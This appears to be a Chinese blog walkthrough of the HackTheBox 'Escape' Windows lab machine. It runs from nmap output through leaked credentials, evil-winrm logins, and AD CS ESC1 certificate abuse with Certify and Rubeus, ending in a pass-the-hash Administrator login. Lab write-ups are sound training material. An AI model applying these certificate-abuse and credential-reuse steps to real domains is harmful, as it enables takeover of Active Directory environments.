 ```yaml
---
title: HackTheBox-Escape-Windows
date: 2025-3-12 20:00:00
tags: 红队
categories: 红队打靶-Windows
---
```


# nmap

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 22:50 CST
Nmap scan report for 10.10.11.202
Host is up (2.4s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49689/tcp open  unknown
49690/tcp open  unknown
49709/tcp open  unknown
49719/tcp open  unknown
49743/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 32.57 seconds
```

在smb共享的public目录下的sql server.pdf中发现账号密码

```
sql_svc:REGGIE1234ronnie
```

evil-winrm（5985端口打开时才可使用这个连接）

```
evil-winrm  -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
```

在sql目录下的log日志中找到账号密码

```
Ryan.Cooper：NuclearMosquito3


evil-winrm  -i 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3
```

同样的方法登录后发现user.txt



Certify.exe可以列举系统上的证书，可以发现有漏洞的证书

原理就是，利用有漏洞的证书给管理员创建证书，使用证书去连接



```
  Certify.exe find /vulnerable 扫描有漏洞的证书
```

**漏洞一：**
THESHIRE\Domain 用户可以注册 VulnTemplate 模板，该模板可用于客户端身份验证，并已设置 ENROLLEE_SUPPLIES_SUBJECT （ESC1）

这允许任何人注册此模板并指定任意 Subject Alternative Name （（主题备用名称） （，即作为 DA）。

```
Certify.exe request /ca:dc.theshire.local\theshire-DC-CA /template:VulnTemplate /altname:localadmin
```

将该 ` -----BEGIN RSA PRIVATE KEY----- ... -----END CERTIFICATE-----` 部分复制到 Linux/macOS 上的文件，然后运行 openssl 命令将其转换为 .pfx。出现提示时，请勿输入密码：

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

然后将pfx文件上传windows

```
Rubeus.exe asktgt /user:localadmin /certificate:C:\Temp\cert.pfx /getcredentials
```

得到管理员的NTLM，然后使用这个去登录

```
evil-winrm  -i 10.10.11.202 -u Administrator -H A52F78E4C751E5F5E17E1E9F3E58F4EE
```

